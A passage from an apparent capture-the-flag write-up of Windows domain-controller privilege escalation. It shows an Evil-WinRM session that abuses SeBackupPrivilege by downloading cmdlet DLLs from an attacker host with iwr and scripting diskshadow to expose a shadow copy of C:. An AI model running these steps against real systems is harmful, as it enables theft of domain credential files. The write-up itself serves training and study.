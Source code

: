  Listing the current user privileges shows the ‘SeBackupPrivilege’.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Uploaded the two CmdLets from [SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege) and a script.txt file.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> iwr -uri http://10.8.1.206/script.txt -outfile .\script.txt
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> iwr -uri http://10.8.1.206/SeBackupPrivilegeCmdLets.dll -outfile .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> iwr -uri http://10.8.1.206/SeBackupPrivilegeUtils.dll -outfile .\SeBackupPrivilegeUtils.dll
```

This is the content of the script. Correct me if I’m wrong, but I think that all lines have to terminate in a space.

```
set verbose on 
set metadata C:\Windows\Temp\meta.cab 
set context clientaccessible 
set context persistent 
begin backup 
add volume C: alias cdrive 
create 
expose %cdrive% E: 
end backup 
exit 
```

Enabled the privilege and created a shadow copy of the disk.

```
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> ipmo .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> ipmo .\SeBackupPrivilegeUtils.dll
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> Set-SeBackupPrivilege
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow.exe /s .\script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  5/10/2024 1:15:42 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
...
```
